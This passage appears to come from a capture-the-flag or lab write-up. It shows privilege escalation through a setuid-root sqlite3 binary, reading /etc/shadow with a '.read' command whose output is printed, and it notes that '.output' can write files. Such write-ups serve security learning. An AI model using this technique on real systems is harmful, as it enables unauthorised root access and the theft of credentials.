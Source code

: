 > ![Pasted image 20241128210538](attachments/Pasted%20image%2020241128210538.png)
> 
> 
> ### Bonus - privilege escalation to root
> 
> The '/usr/bin/sqlite3' executable runs as root with setuid bit set:
> 
> ![](attachments/Pasted%20image%2020241130171404.png)
> 
> This means that the 'sqlite3' binary will always run under its owner's privileges - in this case, that means root privileges. We can test this using the following command:

```
sqlite3 /dev/null -cmd ".read /etc/shadow"
```

> ~~~
> Parse error near line 1: near "root": syntax error
>   root:*:20038:0:99999:7::: daemon:*:20038:0:99999:7::: bin:*:20038:0:99999:7:::
>   ^--- error here
> SQLite version 3.40.1 2022-12-28 14:03:47
> Enter ".help" for usage hints.
> sqlite>
> ~~~
> 
> After the Parse error, some of the content of the file '/etc/shadow' is shown on the screen, and since this file can only be read with root privileges, the .read command must have ran with root privileges.
> 
> The sqlite3 tool '.output' command can be (ab)used to save files and content to disk.
